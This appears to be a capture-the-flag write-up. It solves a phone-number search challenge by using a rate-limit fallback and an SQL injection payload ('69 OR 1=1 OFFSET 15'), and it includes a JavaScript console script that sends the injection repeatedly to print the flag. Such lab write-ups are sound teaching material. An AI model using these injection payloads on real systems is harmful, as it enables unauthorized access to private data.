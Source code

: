 Note: concurrent connections are limited to 5 per IP and repsonses are delayed by 500 ms to avoid brute forcing

1. Notice that there is a rate limit in place for the "expensive API", and a fallback to the "internal database" (your third request in two seconds will fall back to "internal database")
2. Find an SQL injection payload which bypasses the "not a valid phone number" check (anything which starts with `69`, `420` or `1337` and does not include `-`, `;` and `/*`)
3. Notice that you only get 1 result. You can read in the /about page that there's a `LIMIT 1` statement in our query to optimise performance
4. Iterate over results and find that `LIMIT 15` contains a number that ends with 025
5. Working payload: `69 OR 1=1 OFFSET 15`

Executing this script in your console (while on the search-engine page) should output the flag:

```javascript
(async function spamRequests(n) {
    for (let i = 0; i < n; i++) {
        resp = fetch('/api', {
            method: 'POST',
            headers: {
                'Accept': 'application/json',
                'Content-Type': 'text/plain'
            },
            body: '1337 OR 1=1 OFFSET 15',
        })
        .then(async function(resp) { 
            if (resp.status === 200) {
                const data = await resp.json()
                console.log(data.data[0]);
            }
        });
    }
})(5);
```